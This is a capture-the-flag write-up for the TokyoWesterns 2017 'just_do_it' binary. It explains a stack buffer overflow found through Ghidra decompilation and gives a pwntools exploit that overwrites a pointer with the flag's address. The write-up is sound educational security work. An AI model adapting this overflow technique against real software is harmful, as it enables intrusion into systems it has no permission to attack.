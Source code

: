 ![alt text](images/tokyowesterns17-justdoit/tw17-1.png)
Decompiling with Ghidra:

![alt text](images/tokyowesterns17-justdoit/tw17-2.png)

We see that program reads flag from `flag.txt` and stores it in the `flag`, then asks for the password and stores input in variable `local_28`. If `local_28` is equal to `PASSWORD`, then it sets `local_14` to `success_message` and puts `local_14`.

![alt text](images/tokyowesterns17-justdoit/tw17-3.png)

We see none of the password, success message or failed message are of any interest to us. We want the flag.
![alt text](images/tokyowesterns17-justdoit/tw17-4.png)

Maybe we can overwrite the `local_14` with the address of the `flag` and hence make it print the flag.

Offset between input to `local_20` and `local_14` is `0x28-0x14 = 0x14`, but the `fgets` is taking input of 20 bytes. So, its possible !

![alt text](images/tokyowesterns17-justdoit/tw17-5.png)

Address of the `flag` : `0x0804a080`.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template just_do_it
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'just_do_it')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*0x14 + p32(0x0804a080)
io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```

Hence, we get the flag.

![alt text](images/tokyowesterns17-justdoit/tw17-6.png)
